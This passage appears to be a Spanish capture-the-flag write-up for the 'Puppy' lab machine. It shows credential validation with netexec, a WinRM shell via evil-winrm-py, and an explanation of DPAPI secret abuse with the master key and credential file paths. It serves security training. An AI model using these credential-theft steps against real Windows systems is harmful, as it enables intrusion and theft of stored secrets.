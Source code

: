 Podemos validar estas credenciales rápidamente con herramientas como  `netexec`

~~~ bash
nxc smb dc.puppy.htb -u 'steph.cooper' -p 'ChefSteph2025!'            
SMB         10.10.11.70     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.10.11.70     445    DC               [+] PUPPY.HTB\steph.cooper:ChefSteph2025!
~~~


## Shell as `steph.cooper`

Nos conectaremos a la máquina a través de protocolo `winrm` con las credenciales del usuario `steph.cooper`

~~~ bash
evil-winrm-py -i 10.10.11.70 -u steph.cooper -p 'ChefSteph2025!'   
        ▘▜      ▘             
    █▌▌▌▌▐ ▄▖▌▌▌▌▛▌▛▘▛▛▌▄▖▛▌▌▌
    ▙▖▚▘▌▐▖  ▚▚▘▌▌▌▌ ▌▌▌  ▙▌▙▌
                          ▌ ▄▌ v1.1.2
[*] Connecting to 10.10.11.70:5985 as steph.cooper
evil-winrm-py PS C:\Users\steph.cooper\Documents> whoami
puppy\steph.cooper
~~~


## Abusing Data Protection API Secrets 

> **DPAPI** (Data Protection API) es una API de cifrado integrada en Windows que permite proteger datos sensibles (como contraseñas, claves y credenciales) de forma automática, utilizando las credenciales del usuario o del sistema.
{: .notice--info}

DPAPI protege los datos utilizando una `master key`, normalmente cifrada con las credenciales del usuario en formato hash.

El [abuso o lectura de secretos DPAPI](https://www.thehacker.recipes/ad/movement/credentials/dumping/dpapi-protected-secrets) es una técnica de post-explotación que logra obtener información sensible protegida por DPAPI. 

Para descifrar datos protegidos por esta funcionalidad de Windows necesitamos extraer los siguientes archivos:

- `Master Key`: Clave maestra, la necesitaremos para desencriptar credenciales
- `Credential File`: Archivo de credenciales protegidas por DPAPI

Los datos se almacenan en el directorio de usuarios y están protegidos por esta clave maestra. Normalmente se encuentran el la siguiente carpeta

~~~ powershell
C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SUID\$GUID
~~~

Los datos protegidos suelen encontrarse dentro de los siguientes directorios del usuario

~~~ powershell
C:\Users\$USER\AppData\Local\Microsoft\Credentials\
C:\Users\$USER\AppData\Roaming\Microsoft\Credentials\
~~~

